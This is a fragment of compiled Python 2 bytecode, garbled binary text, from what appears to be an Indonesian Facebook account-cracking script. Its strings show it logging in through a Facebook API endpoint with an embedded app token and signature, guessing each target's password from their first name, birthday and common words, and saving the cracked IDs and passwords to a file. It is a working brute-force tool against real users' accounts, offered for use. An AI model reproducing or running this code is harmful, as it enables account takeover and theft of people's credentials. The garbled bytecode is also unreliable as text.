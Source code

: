 \x00\x19}\x0b\x00|\x0b\x00j\x12\x00d!\x00d"\x00\x83\x02\x00}\x0c\x00t\t\x00j\n\x00d\x06\x00|\x01\x00\x17d\x07\x00\x17|\x0c\x00\x17d\x08\x00\x17\x83\x01\x00}\x05\x00t\x06\x00j\x0b\x00|\x05\x00\x83\x01\x00}\x06\x00d\t\x00|\x06\x00k\x06\x00r\xfd\x04d#\x00GHd\x0b\x00|\x03\x00d\x0c\x00\x19\x17GHd\r\x00|\x01\x00\x17GHd\x0e\x00|\x0c\x00\x17d\x0f\x00\x17GHt\x0c\x00j\r\x00|\x01\x00|\x0c\x00\x17\x83\x01\x00\x01n\x80\x01d\x10\x00|\x06\x00d\x11\x00\x19k\x06\x00r\x7f\x05d\x12\x00GHd$\x00|\x03\x00d\x0c\x00\x19\x17GHd\x14\x00|\x01\x00\x17GHd\x15\x00|\x0c\x00\x17d\x0f\x00\x17GHt\x0e\x00d\x16\x00d\x17\x00\x83\x02\x00}\x07\x00|\x07\x00j\x0f\x00d\x18\x00|\x01\x00\x17d\x19\x00\x17|\x0c\x00\x17d\x0f\x00\x17\x83\x01\x00\x01|\x07\x00j\x10\x00\x83\x00\x00\x01t\x11\x00j\r\x00|\x01\x00|\x0c\x00\x17\x83\x01\x00\x01n\xfe\x00d%\x00}\r\x00t\t\x00j\n\x00d\x06\x00|\x01\x00\x17d\x07\x00\x17|\r\x00\x17d\x08\x00\x17\x83\x01\x00}\x05\x00t\x06\x00j\x0b\x00|\x05\x00\x83\x01\x00}\x06\x00d\t\x00|\x06\x00k\x06\x00r\xfb\x05d\n\x00GHd\x0b\x00|\x03\x00d\x0c\x00\x19\x17GHd\r\x00|\x01\x00\x17GHd\x0e\x00|\r\x00\x17d\x0f\x00\x17GHt\x0c\x00j\r\x00|\x01\x00|\r\x00\x17\x83\x01\x00\x01n\x82\x00d\x10\x00|\x06\x00d\x11\x00\x19k\x06\x00r}\x06d\x12\x00GHd\x13\x00|\x03\x00d\x0c\x00\x19\x17GHd\x14\x00|\x01\x00\x17GHd\x15\x00|\r\x00\x17d\x0f\x00\x17GHt\x0e\x00d\x16\x00d\x17\x00\x83\x02\x00}\x07\x00|\x07\x00j\x0f\x00d\x18\x00|\x01\x00\x17d\x19\x00\x17|\r\x00\x17d\x0f\x00\x17\x83\x01\x00\x01|\x07\x00j\x10\x00\x83\x00\x00\x01t\x11\x00j\r\x00|\x01\x00|\r\x00\x17\x83\x01\x00\x01n\x00\x00Wn\x07\x00\x01\x01\x01n\x01\x00Xd\x00\x00S(&\x00\x00\x00Nt\x03\x00\x00\x00outs\x1b\x00\x00\x00https://graph.facebook.com/s\x0f\x00\x00\x00/?access_token=t\n\x00\x00\x00first_namet\x03\x00\x00\x00123s\x91\x00\x00\x00https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=s\x17\x00\x00\x00&locale=en_US&password=sH\x00\x00\x00&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6R;\x00\x00\x00s*\x00\x00\x00\x1b[1;97m[\x1b[1;92m\xe2\x9c\x93\x1b[1;97m] \x1b[1;92mBERHASILs;\x00\x00\x00\x1b[1;97m[\x1b[1;92m\xe2\x80\xa2\x1b[1;97m] \x1b[1;97mNama \x1b[1;91m    : \x1b[1;92mRb\x00\x00\x00s;\x00\x00\x00\x1b[1;97m[\x1b[1;92m\xe2\x80\xa2\x1b[1;97m] \x1b[1;97mID \x1b[1;91m      : \x1b[1;92ms;\x00\x00\x00\x1b[1;97m[\x1b[1;92m\xe2\x80\xa2\x1b[1;97m] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;92ms\x01\x00\x00\x00\ns\x10\x00\x00\x00www.facebook.comt\t\x00\x00\x00error_msgs*\x00\x00\x00\x1b[1;97m[\x1b[1;91m\xe2\x9c\x96\x1b[1;97m] \x1b[1;93mCEKPOINTs;\x00\x00\x00\x1b[1;97m[\x1b[1;91m\xe2\x80\xa2\x1b[1;97m] \x1b[1;97mNama \x1b[1;91m    : \x1b[1;93ms;\x00\x00\x00\x1b[1;97m[\x1b[1;91m\xe2\x80\xa2\x1b[1;97m] \x1b[1;97mID \x1b[1;91m      : \x1b[1;93ms;\x00\x00\x00\x1b[1;97m[\x1b[1;91m\xe2\x80\xa2\x1b[1;97m] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;93ms\x10\x00\x00\x00out/super_cp.txtR`\x00\x00\x00s\x03\x00\x00\x00ID:s\x04\x00\x00\x00 Pw:t\x05\x00\x00\x0012345s<\x00\x00\x00\x1b[1;97m[\x1b[1;92m \xe2\x80\xa2\x1b[1;97m] \x1b[1;97mNama \x1b[1;91m    : \x1b[1;92ms<\x00\x00\x00\x1b[1;97m[\x1b[1;92m \xe2\x80\xa2\x1b[1;97m] \x1b[1;97mID \x1b[1;91m      : \x1b[1;92ms<\x00\x00\x00\x1b[1;97m[\x1b[1;92m \xe2\x80\xa2\x1b[1;97m] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;92mt\t\x00\x00\x00last_namet\x07\x00\x00\x00Bangsatt\x08\x00\x00\x00birthdayt\x01\x00\x00\x00/R\n\x00\x00\x00s*\x00\x00\x00\x1b[1;97m[\x1b[1;92m\xe2\x9c\x94\x1b[1;97m] \x1b[1;92mBERHASILs:\x00\x00\x00\x1b[1;97m[\x1b[1;91m\xe2\x80\xa2\x1b[1;97m \x1b[1;97mNama \x1b[1;91m    : \x1b[1;93mt\x06\x00\x00\x00Sayang(\x13\x00\x00\x00R\x05\x00\x00\x00t\x05\x00\x00\x00mkdirt\x07\x00\x00\x00OSErrorRR\x00\x00\x00RS\x00\x00\x00R[\x00\x00\x00RT\x00\x00\x00RU\x00\x00\x00RV\x00\x00\x00t\x06\x00\x00\x00urllibt\x07\x00\x00\x00urlopent\x04\x00\x00\x00loadt\x03\x00\x00\x00okst\x06\x00\x00\x00appendR>\x00\x00\x00R\x19\x00\x00\x00RW\x00\x00\x00t\x08\x00\x00\x00cekpointR\x16\x00\x00\x00(\x0e\x00\x00\x00t\x03\x00\x00\x00argt\x04\x00\x00\x00userR`\x00\x00\x00t\x01\x00\x00\x00bt\x05\x00\x00\x00pass1R_\x00\x00\x00t\x01\x00\x00\x00qt\x03\x00\x00\x00cekt\x05\x00\x00\x00pass2t\x05\x00\x00\x00pass3t\x05\x00\x00\x00pass4Rr\x00\x00\x00t\x05\x00\x00\x00pass5t\x05\x00\x00\x00pass6(\x00\x00\x00\x00(\x00\x00\x00\x00s\x07\x00\x00\x00